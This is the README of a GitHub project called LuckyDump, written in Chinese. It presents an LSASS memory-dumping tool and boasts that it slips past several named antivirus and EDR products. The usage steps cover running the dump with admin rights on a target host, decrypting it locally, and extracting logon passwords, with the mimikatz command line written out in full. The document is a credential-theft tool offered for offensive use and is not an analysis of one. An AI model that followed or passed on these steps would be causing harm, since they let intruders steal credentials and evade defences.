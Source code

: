 # LuckyDump
自行编译  
工具详细说明：https://mp.weixin.qq.com/s/AuOfu3RwPtqF9toYsYUVRA  
截止 2025.3.19 过 360 核晶 火绒 defender macfee ESET  
静态免杀性：去除掉延迟函数可以达到vt0杀，但是动态行为会被一些edr拦截，静态这几个也无关痛痒（猎鹰静态过了动态也dump不了） 
![image](https://github.com/user-attachments/assets/d0dcc19f-759b-4467-af5d-0e4ee175cf7c)  
![image](https://github.com/user-attachments/assets/659cc904-7aa1-4bc0-850c-00262635589d) 


使用方法：
在目标主机管理员权限执行dump go： 

![image](https://github.com/user-attachments/assets/6c3d0f8d-97ea-4a7a-99f2-7fd741ef49a9)  

下载到本机使用py脚本解密文件： 
![image](https://github.com/user-attachments/assets/816b6feb-890a-4b34-8422-076df156baec)  
mimikatz提取密码

mimikatz "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit  
![image](https://github.com/user-attachments/assets/b0d5d64a-b420-4adf-9bef-37583848d55f) 
 
